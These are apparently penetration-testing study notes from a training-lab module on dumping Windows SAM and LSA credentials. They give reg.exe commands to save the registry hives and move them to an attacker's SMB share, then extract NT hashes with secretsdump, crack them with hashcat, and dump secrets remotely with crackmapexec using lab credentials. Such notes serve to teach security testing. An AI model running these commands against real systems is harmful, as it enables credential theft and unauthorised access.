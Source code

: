 With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline. Doing this offline will ensure we can continue to attempt our attacks without maintaining an active session with a target. Let's walk through this process together using a target host. Feel free to follow along by spawning the target box in this section. 
[[Attacking LSASS]]

#sam

## Copying SAM Registry Hives

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

#### Using reg.exe save to Copy Registry Hives

>Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:

```C
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#reg_exe #cmd #sam 
## Creating a Share with smbserver.py

>All we must do to create the share is run smbserver.py -smb2support using python, give the share a name (`CompData`) and specify the directory on our attack host where the share will be storing the hive copies (`/home/path to the folder/Documents`). 


```
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/path to the folder/Documents/
```

#impacket #secretsdump
#### Moving Hive Copies to Share

```c
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

#cmd #sam #sam_transfer

#### Dumping Hashes with Impacket's secretsdump.py

> One incredibly useful tool we can use to dump the hashes offline is Impacket's `secretsdump.py`. Impacket can be found on most modern penetration testing distributions. We can check for it by using `locate` on a Linux-based system:

```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Formatting for the dumped data  `Dumping local SAM hashes (uid:rid:lmhash:nthash)`

#impacket #secretsdump #dumping 


## Cracking Hashes with Hashcat

>Once we have the hashes, we can start attempting to crack them using [Hashcat](https://hashcat.net/hashcat/). We will use it to attempt to crack the hashes we have gathered. If we take a glance at the Hashcat website, we will notice support for a wide array of hashing algorithms. In this module, we use Hashcat for specific use cases. This should help us develop the mindset & understanding to use Hashcat as well as know when we need to reference Hashcat's documentation to understand what mode and options we need to use depending on the hashes we capture.

#### Adding nthashes to a .txt File

```
$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

#### Running Hashcat against NT Hashes

>Hashcat has many different modes we can use. Selecting a mode is largely dependent on the type of attack and hash type we want to crack. Covering each mode is beyond the scope of this module. We will focus on using `-m` to select the hash type `1000` to crack our NT hashes (also referred to as NTLM-based hashes). We can refer to Hashcat's [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes) or the man page to see the supported hash types and their associated number. We will use the infamous rockyou.txt wordlist mentioned in the `Credential Storage` section of this module.

```
$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#hashcat #password_mutations #cracking


## Remote Dumping & LSA Secrets Considerations

>With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

#### Dumping LSA Secrets Remotely 
```
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely
We can also dump hashes from the SAM database remotely.
```
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

#crackmapexec #smb #lsa #dumping #sam 
